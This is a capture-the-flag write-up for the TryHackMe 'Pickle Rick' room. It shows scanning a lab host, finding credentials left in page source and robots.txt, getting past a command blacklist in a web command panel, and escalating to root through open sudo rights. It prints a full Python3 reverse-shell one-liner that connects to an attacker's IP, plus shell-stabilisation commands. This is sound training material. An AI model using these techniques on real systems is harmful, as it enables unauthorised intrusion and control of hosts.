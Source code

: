 ```yaml
---
title: Pickle Rick
layout: default
permalink: /writeups/tryhackme/:title/
tags: [writeup]
category: TryHackMe
---
```


# [Pickle Rick](https://tryhackme.com/room/picklerick)

A Rick and Morty CTF. Help turn Rick back into a human!


## External

Initial `nmap` scan:
```
$ nmap -sC -sV -oN inital 10.10.69.168

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d0:e3:a6:9f:40:19:68:a8:db:34:29:e9:45:bd:40:91 (RSA)
|   256 77:25:a2:d4:0b:05:17:05:20:3b:a6:74:ef:cf:1a:9f (ECDSA)
|_  256 5c:2a:7b:9b:0d:b3:73:37:6b:7f:32:dc:be:5a:f8:ea (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`gobuster` scan:
```
$ gobuster dir -u http://10.10.69.168 -w /opt/directory-brute.txt -x php,txt

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.69.168
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/directory-brute.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2021/05/28 13:50:42 Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.69.168/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                   
/robots.txt           (Status: 200) [Size: 17]
```

From our initial scans the obvious first move is to enumerate the web page running on port `80` since we have nothing to go off of for `ssh` 

## Web App

![mainpage](https://i.imgur.com/Xie6ulW.png)

Looking at the main page, nothing really stands out to us except some room *lore* but, checking out the source of the page by pressing `CTRL + u` we get something interesting.

![1](https://user-images.githubusercontent.com/69171981/120057539-b4243b00-bff8-11eb-84cf-a829d692362d.png)

In a pretty bold comment we see `rick` has taken a note of his username but no password in sight. Now we know we have a username *most likely* for that `/login.php` page...

![loginpage](https://i.imgur.com/3GaYesG.png)

I tried some quick SQLi payloads to see if we have an easy access but came up with nothing. At first I thought of using `hydra` to brute-force his password but than I looked back at the gobuster scan and saw that we found `robots.txt` this file isn't always useful but you should always check it.

![robots](https://i.imgur.com/iZhpgcx.png)

Inside, we see a *phrase* concatenated into a single word since it was in `robots.txt` I thought this might be a hidden directory, trying to access that page we get a `404` meaning it does not exist. 

After a few minutes of thinking, if `rick` hid his password inside of the web page, he might be hiding his password as well, going off of this thought, I tried using the word that we found in `robots.txt` as `rick`'s password...

![loggedin](https://i.imgur.com/oTIpnvz.png)

It worked! we are greeted with a "Command Panel" hovering out mouse over each of the words in the header of the page, they all redirect us to `/denied.php` stating that *"Only the **REAL** rick can view this page.."*

Trying not to get distracted with that *juicy* command panel I decided to look at the source of the page to see if there was anything else hidden.

![fake](https://i.imgur.com/3oFkuHb.png)

Once again the pattern continues and we see what looks like a base64 hash commented out inside of the page source

Buuuuut, after some attempted decoding, this was nothing but a rabbit hole...

Moving on, from experience I've seen a few of these *"Command Panel"*s before so I decided to input a simple linux command into the panel.

![exec](https://i.imgur.com/g5Cnjaf.png)

Upon clicking execute, we see that the command that we inputted in executed and displayed to us.

There is a log that we can do with this including potentially getting a reverse shell but, I decided not to just straight to a reverse shell and rather do most of my enumeration in this command panel.

![ls](https://i.imgur.com/Lg6A9PA.png)

Running `ls -al` gives us the output above. Looking at this output we see some familiar files such as `index.html`, `robots.txt`, `portal.php`, etc. I realized that we are in the `/var/www/html` directory which is the directory that this `apache2` web server runs off of.

There are a few files that catch my eye here, since we can execute commands we can simple just `cat` these files out... right?

![wrong](https://i.imgur.com/FD6xenJ.png)

wrong. It seems that the `cat` command is disabled, that's fine there are plenty of other ways to read the contents of these files. 

Let's see how they are blocking us from using a certain command.

![3](https://user-images.githubusercontent.com/69171981/120057546-bbe3df80-bff8-11eb-8baf-8f862dcad13b.png)

Using the `tac` command we can read the source code of the file and see a `javascript` method with an array inside with the blacklisted commands. 

Starting out with the `Sup3rS3cretPickl3Ingred.txt` file, since we are in the web page's file tree, I simply just attached it to the url in the address bar but, you could use `tac` instead of `cat` to do the same thing

![firstflag](https://i.imgur.com/KgERNPh.png)

Inside of this is our first flag!

Next, let's take a look at the `clue.txt` file.

![clue](https://i.imgur.com/M8OZuyz.png)

Reading this file we see that it is hinting at us to look around the file system for the next flag.

Instead of manually looking around, we can use the `find` command inside of the command panel to speed up the process.

![2](https://user-images.githubusercontent.com/69171981/120057551-c30aed80-bff8-11eb-8bcf-8ba950611d6f.png)

using this command, `find / -name "*second*" 2>>/dev/null` we see a quite promising file by the name `second ingredients` in `rick`'s home directory, let's see if we can `tac` it out.

!(secondflag)[https://i.imgur.com/yqbY0u6.png]

We can! After looking around a bit more to see if we could somehow access the final flag I decided it was time to get a shell.

Heading over to pentestmonkey's [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) Knowing that we cannot use `cat` in our input, we are unable to use the `netcat` reverse shell, so let's see if we can use `python3` in the command panel. 

![python](https://i.imgur.com/VojqzxJ.png)

Using the `which` command we see that `python3` is installed and from the array of blacklisted commands that we found earlier, we know that we are able to use it as well.

![nclistener](https://i.imgur.com/xb2e9GB.png)

After setting up our `netcat` listener, we can paste the reverse shell into the command panel.
*make sure you are using `python3` not `python`*

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![werein](https://i.imgur.com/ih6Abse.png)

## Internal

Now that we have a shell on the box, I will stabilize it by using a few commands..

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo; fg
export TERM=xterm
```

These commands stabilize our shell so we can use our arrow keys, the `clear` command, etc.

We see that we are running as a low-privileged user `www-data`, I will start off with some manual enumeration to see if we can escalate our privileges.

I always start off my manual enumeration with `sudo -l` this command lists commands that we can use as `sudo`, or the `root` user.

![sudol](https://i.imgur.com/gktO0Eu.png)

Looks like we can user any command as any user without supplying a password!

![privesc](https://i.imgur.com/C7Lgj5D.png)

Just like that we are root, all we have to do is find the final flag.

![finalflag](https://i.imgur.com/VtzZbTT.png)

Checking out the `/root` directory we see `3rd.txt` with the third and final flag inside. That is all the flags, thank you for joining me :)
